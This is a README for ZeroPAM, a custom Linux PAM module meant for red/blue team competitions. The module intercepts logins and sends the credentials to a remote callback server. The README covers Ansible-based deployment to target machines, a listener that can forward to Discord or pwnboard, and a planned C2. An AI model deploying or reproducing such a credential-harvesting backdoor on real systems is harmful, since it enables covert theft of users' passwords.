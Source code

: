 # ZeroPAM
Custom PAM module for use during red team/blue team competition that proxies all authentication requests and sends credentials to a remote server

## Setup:
1. Write all target IP addresses in inventory.ini under the [targets] section
2. Run `python3 setup.py -i <Callback IP> -p <Port>` from the host machine (use --help for more options)

## Host Requirements and Prerequities:
Host must be a Linux distribution (Debian-based/RedHat-based for now) capable of installing and running Ansible and Docker

Install Ansible on the host machine (before running setup.py)
- Ubuntu/Debian: `sudo apt update && sudo apt install software-properties-common && sudo add-apt-repository --yes --update ppa:ansible/ansible && sudo apt install ansible`
- RedHat Distributions: `sudo dnf install ansible`
- Kali Linux: `sudo apt install ansible`

Install Docker on the host machine (before running setup.py)
- Instructions TBD (probably put in a helper script)

Install required python modules (before running cli.py)
- All Distributions: `pip3 install -r requirements.txt`

# Start Listening!
This module works best with a callback server. To start this, run the command `python3 cli.py`
In the CLI, run `server args --port <port>`
Run `python3 server.py --help` for more options! Some example options:
- --discord (send commands to Discord through a webhook in an environment variable or .env file)
- --only-new (only send message when credentials update)
- --no-db (run without database - cannot be run with --only-new)
- --pwnboard (use [pwnboard](https://www.github.com/max-49/pwnboard))
- --pwnboard-host <PWNBOARD_URL> (use with --pwnboard for URL)

## Current Known Issues
- idk we'll see

## Todo
- Encrypt message being sent from client
- Create C2 to go alongside ZeroPAM
- Officially include Arch/SUSE category of target machine
